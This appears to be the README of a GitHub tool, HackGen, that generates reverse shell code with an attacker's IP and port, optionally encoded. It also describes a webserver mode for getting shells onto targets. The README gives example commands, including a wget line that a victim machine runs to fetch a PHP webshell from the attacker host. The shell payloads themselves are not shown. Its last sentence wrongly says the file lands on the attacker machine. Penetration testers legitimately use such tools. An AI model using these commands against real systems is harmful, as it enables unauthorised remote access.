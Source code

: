 # HackGen
> Pretty much msfvenom, but I hate Metasploit >:(

## Installation:
- Clone this repo to whatever directory you want
- Change the path of the rshells.db database to the <b>ABSOLUTE</b> path of the install dir
- Optional: Link the "hackgen.py" script to somewhere in your path so it can be executed from anywhere!

## Usage:
> Use the `-h` flag for details on the usage.

This script was created to easily produce reverse shell codes with an attacker's IP & port in the script.
It can also urlencode or base64 encode the resulting script.
### Webserver:
One fun feature is that you can start hackgen as a webserver which makes it incredibly easy to get rshell code onto a target.
Once the hackgen command us run with the `-w` flag, it will start a webserver on port 8000. When a GET request is sent to the server, it will reply with just the rshell string. Because the server will return the same rhsell code no matter the requested endpoint, a simple way to save to a file is to use `wget` to get a specific page from the server. Because all "pages" return the same thing, wget will end up writing the retrieved rshell to the fetched page. For example, if we wanted to write a PHP webshell to file "webshell.php", on the attacker machine we would run the command:
```
hackgen.py <your ip> <your port> -wf php -n webshell
```
And on the victim machine, we would run:
```
wget http://<your ip>:8000/webshell.php
```
This will save the PHP webshell to the attacker machine under the filename: "webshell.php"
